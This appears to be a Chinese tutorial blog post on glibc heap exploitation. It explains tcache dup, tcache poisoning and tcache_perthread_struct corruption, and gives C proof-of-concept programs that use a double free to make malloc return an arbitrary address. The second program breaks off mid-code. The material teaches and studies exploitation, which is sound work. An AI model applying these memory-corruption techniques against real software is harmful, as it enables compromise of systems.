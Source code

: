 ![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/ea9904d53d174372bb452bad928e5af7.png)
## tcache dup
free 两次之后再 malloc 效果等同于 uaf ，可以进行 tcache poisoning（修改malloc得到的chunk的fd即修改在tcachebin的chunk的fd） ，然后malloc两次可以得到fd对应的chunk

glibc-2.29 开始增加了 tcache key 来检测 double free 。

glibc-2.30 之后逻辑变了，原来是判断 entry[idx]!=NULL，glibc-2.30 之后判断 count[idx] > 0 
### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

int main()
{
    size_t* chunk1=malloc(0x10);
    free(chunk1);
    free(chunk1);
    size_t* chunk2=malloc(0x10);
    size_t fakechunk[0x20];
    chunk2[0]=fakechunk;
    malloc(0x10);
    size_t* destchunk=malloc(0x10);
    printf("destchunk 0x%p\n",destchunk);
    printf("fakechunk 0x%p\n",fakechunk);

}
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/12766ad0326c41e59bec239ce1fe2c5b.png)
## tcache perthread corruption
通过 tcache poisoning 改fd一定偏移到tcache_perthread_struct 然后malloc 到 tcache_perthread_struct 就可以控制整个 tcache（但控制整个前提是size得大才行） 。可以改entries分配任意地址堆或者改大count使得free不进入tcachebin


```c
typedef struct tcache_perthread_struct
{
  uint16_t counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```
### poc

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>
size_t getheap()
{
    puts("getlibc");
    size_t libc_addr=puts-0x6dfe0;
    size_t* mp_72=libc_addr+0x3af2c0+0x8;
    size_t heap=*mp_72;
    return heap;
}
int main()
{
    size_t* chunk1=malloc(0x10);
    free(chunk1);
    free(chunk1);
```